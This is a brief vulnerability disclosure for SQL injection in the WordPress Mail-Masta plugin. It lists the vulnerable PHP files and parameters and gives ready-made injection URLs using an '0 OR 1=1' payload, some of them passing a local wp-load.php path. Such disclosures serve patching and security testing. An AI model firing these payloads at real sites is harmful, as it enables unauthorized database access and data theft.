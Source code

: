 Wordpress Plugin Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php

GET Parameter: list_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires authentication to Wordpress admin)

GET Parameter: filter_list

http://<wordpress>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1




Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)

POST Parameter: camp_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires authentication to Wordpress admin)

POST Parameter: list_id
